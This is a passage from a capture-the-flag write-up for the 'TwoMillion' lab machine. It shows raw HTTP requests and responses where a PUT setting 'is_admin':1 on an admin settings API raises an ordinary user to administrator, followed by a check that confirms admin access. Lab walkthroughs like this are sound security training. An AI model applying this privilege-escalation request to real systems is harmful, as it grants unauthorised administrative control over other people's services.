 ```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=0at92ian3f6vu79iq3p3vjt6gc
Upgrade-Insecure-Requests: 1
Content-Length: 55
Content-Type: application/json

{"email":"test@test.it","username":"test","is_admin":1}
```

```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 21 Jul 2024 14:55:58 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 40

{"id":13,"username":"test","is_admin":1}
```

---

### Confirmation of the change:
![c59a0cfabdc7ef42f9879e2149284c46.png](/assets/twomillions/c59a0cfabdc7ef42f9879e2149284c46.png)

### Verifying Admin Authentication
We performed a request to verify admin privileges:

```
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=0at92ian3f6vu79iq3p3vjt6gc
Upgrade-Insecure-Requests: 1
Content-Length: 0

```

```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 21 Jul 2024 14:58:00 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 16

{"message":true}
```
